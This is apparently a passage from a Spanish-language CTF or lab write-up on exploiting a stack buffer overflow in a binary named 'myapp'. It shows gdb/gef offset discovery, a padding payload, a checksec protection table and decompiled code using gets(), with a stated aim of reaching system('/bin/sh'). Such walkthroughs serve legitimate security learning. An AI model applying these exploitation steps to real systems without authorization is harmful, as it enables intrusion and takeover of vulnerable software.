 Una vez explicado esto, procederemos a abrir el programa con gdb para analizarlo detalladamente. Primero nos crearemos un patron para saber el **offset** que tenemos:

```bash wrap=false
gef➤  pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
```

El programa nos calcula solo este valor de la siguiente manera:

```bash wrap=false
gef➤  patter offset $rsp
[+] Searching for '7061616161616161'/'6161616161616170' with period=8
[+] Found at offset 120 (little-endian search) likely
```

El **rsp** es el _stack pointer_ que apunta al tope de la pila. Vamos a comprobar si esto es verdad con el siguiente patrón:

```bash wrap=false
❯ python3 -c 'print("A"*120 + "B"*8 + "C"*8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

El comando `checksec` permite revisar las protecciones de seguridad aplicadas al binario. Los resultados para `myapp` son:

<table><thead><tr><th width="111.727294921875">Protección</th><th width="88.9090576171875">Estado</th><th>Descripción</th></tr></thead><tbody><tr><td><strong>Canary</strong></td><td><mark style="color:red;">✘</mark></td><td>No tiene <em>stack canaries</em>, por lo que <strong>no detecta sobrescrituras en la pila</strong>. Facilita un <strong>buffer overflow</strong>.</td></tr><tr><td><strong>NX</strong></td><td><mark style="color:green;">✓</mark></td><td>La memoria <strong>no ejecutable</strong> está activada. Evita ejecutar código inyectado en stack o heap.</td></tr><tr><td><strong>PIE</strong></td><td><mark style="color:red;">✘</mark></td><td>El binario <strong>no es Position Independent</strong>. Las direcciones de funciones y variables son <strong>predecibles</strong>, facilitando exploits.</td></tr><tr><td><strong>Fortify</strong></td><td><mark style="color:red;">✘</mark></td><td>No utiliza <em>Fortify Source</em>, lo que significa que funciones de string peligrosas (<code>strcpy</code>, <code>sprintf</code>) <strong>no tienen protección adicional</strong>.</td></tr><tr><td><strong>RelRO</strong></td><td><mark style="color:yellow;">Partial</mark></td><td>Protección <em>Relocation Read-Only</em> parcialmente activada. Algunas secciones son de solo lectura, pero otras pueden ser modificadas (<strong>GOT overwrite posible</strong>).</td></tr></tbody></table>

Pensando como vulnerar esto, recordamos lo siguiente:&#x20;

```c
undefined8 main(void)

{
  char local_78 [112];
  
  /* 
  system("/bin/sh") -> Comando que nos interesa ejecutar
  rdi, rsi, rdx, rcx, r8, r9 (Convenio de llamadas)
  rdi -> /usr/bin/uptime 
  */
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}

```
